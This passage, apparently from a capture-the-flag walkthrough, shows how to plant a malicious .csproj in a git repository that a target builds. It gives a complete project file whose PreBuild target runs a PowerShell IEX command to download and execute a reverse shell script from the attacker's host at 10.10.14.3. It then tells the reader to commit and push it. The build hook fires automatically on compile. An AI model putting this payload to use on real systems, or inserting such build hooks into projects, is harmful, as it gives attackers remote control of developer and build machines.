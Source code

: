 ![](Visual/repocompiler2.png)


It works! Now we need to insert malicious code in our repository


### Malicious .csproj

According to [Microsoft's Documentation](https://learn.microsoft.com/en-us/cpp/build/how-to-use-build-events-in-msbuild-projects?view=msvc-170), we can execute code before the build happens.
We will edit our .csproj file to download a reverse shell from our machine
Make sure to change to the correct IP and port on both files accordingly
``` text
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <RootNamespace>project_name</RootNamespace>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/revshell.ps1')" />
  </Target>

</Project>
```
Don't forget to push the changes to the project to our git repository
``` bash
$ git commit -m 'commit'
git push -u origin main
```
